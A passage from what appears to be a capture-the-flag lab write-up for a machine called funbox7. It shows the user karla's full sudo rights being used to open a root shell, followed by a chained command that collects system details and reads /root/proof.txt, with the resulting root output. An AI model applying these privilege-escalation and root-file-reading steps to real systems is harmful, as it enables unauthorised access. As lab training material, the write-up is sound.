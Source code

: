     (ALL : ALL) ALL

  

karla has full sudo privileges

  

```sh

sudo bash

```

  

Now I'm root. 

Dump proof info

```sh

echo " "; echo "uname -a:"; uname -a; \

echo " "; echo "hostname:"; hostname; \

echo " "; echo "id"; id; \

echo " "; echo "ifconfig:"; /sbin/ifconfig -a; \

echo " "; echo "proof:"; cat /root/proof.txt 2>/dev/null; cat /Desktop/proof.txt 2>/dev/null; echo " "

```

uname -a:

Linux funbox7 4.15.0-117-generic #118-Ubuntu SMP Fri Sep 4 20:02:41 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux

hostname:

funbox7

id

uid=0(root) gid=0(root) groups=0(root)

ifconfig:

ens192: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500

        inet 192.168.184.132  netmask 255.255.255.0  broadcast 192.168.184.255

        ether 00:50:56:ba:48:f3  txqueuelen 1000  (Ethernet)

        RX packets 664576  bytes 187930017 (187.9 MB)

        RX errors 0  dropped 0  overruns 0  frame 0

        TX packets 584623  bytes 107643061 (107.6 MB)

        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
